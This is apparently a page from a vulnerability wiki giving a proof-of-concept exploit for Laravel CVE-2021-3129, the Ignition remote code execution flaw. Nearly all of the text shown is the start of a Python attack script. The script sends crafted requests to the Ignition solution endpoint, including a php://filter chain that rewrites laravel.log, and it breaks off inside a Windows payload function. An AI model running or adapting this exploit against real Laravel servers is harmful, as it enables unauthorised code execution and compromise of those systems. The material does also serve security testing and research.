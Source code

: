 ![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095458884.png)

## Vulnerability POC

<a-alert type="success" message="https://github.com/SecPros-Team/laravel-CVE-2021-3129-EXP/blob/main/laravel-CVE-2021-3129-EXP.py" description="" showIcon>
</a-alert>
<br/>

```python
# -*- coding: utf-8 -*- 
import requests,json
import sys,re
proxies = {
    "http": '127.0.0.1:8080'}

header={
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
"Content-Type":"application/json"
}


def clearlog(url):
    data = {
 "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
 "parameters": {
  "variableName":"username",
"viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
 }
}
 
    req=requests.post(url,headers=header,data=json.dumps(data,indent=1))
    return req

def AA(url):
    data={
 "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
 "parameters": {
  "variableName":"username",
"viewFile": "AA"
 }
}
    req=requests.post(url,headers=header,data=json.dumps(data,indent=1))
    return req

def sendpayloadwindows(url):
    data={
 "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
 "parameters": {
  "variableName":"username",
```